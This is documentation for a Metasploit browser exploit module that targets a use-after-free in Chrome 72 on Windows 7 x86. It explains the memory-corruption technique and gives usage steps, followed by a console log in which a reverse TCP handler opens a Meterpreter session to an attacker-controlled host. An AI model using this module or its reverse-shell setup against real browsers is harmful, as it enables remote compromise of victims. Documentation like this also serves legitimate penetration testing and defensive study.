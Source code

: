 ## Description

The FileReader.readAsArrayBuffer function can return multiple references to the same ArrayBuffer object, which can be freed and overwritten with sprayed objects.  The dangling ArrayBuffer reference can be used to access the sprayed objects, allowing arbitrary memory access from Javascript. This is used to write and execute shellcode in a WebAssembly object.

The shellcode is executed within the Chrome sandbox, so you must explicitly disable the sandbox for the payload to be successful, e.g:

`C:\Program Files\Google\Chrome\Application>chrome.exe --no-sandbox`

## Vulnerable Application

This exploit takes advantage of a use after free vulnerability in Google Chrome 72.0.3626.119 running on Windows 7 x86.
Additional memory protections mean this exploit technique is not as straightforward on x64 versions of Windows.

## Verification Steps

1. Start msfconsole
1. Do: ```use exploit/windows/browser/chrome_filereader_uaf```
1. Do: ```Choose a payload and set any specific options```
1. Do: ```run```, after a target browses to the generated URL, you should receive a session.

## Scenarios

### Windows 7 x86 with Google Chrome 72.0.3626.119 (--no-sandbox)


```
msf > use exploit/windows/browser/chrome_filereader_uaf
msf exploit(windows/browser/chrome_filereader_uaf) > set URIPATH /
URIPATH => /
msf exploit(windows/browser/chrome_filereader_uaf) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(windows/browser/chrome_filereader_uaf) > run
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.1:8080/
[*] Server started.
[*] 192.168.0.1   chrome_filereader_uaf - Sending /
[*] 192.168.0.1   chrome_filereader_uaf - Sending /favicon.ico
[*] 192.168.0.1   chrome_filereader_uaf - Sending /exploit.html
[*] 192.168.0.1   chrome_filereader_uaf - Sending /worker.js
[*] Sending stage (179779 bytes) to 192.168.0.1
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> 192.168.0.1:60876) at 2019-05-06 16:49:06 +0800
```


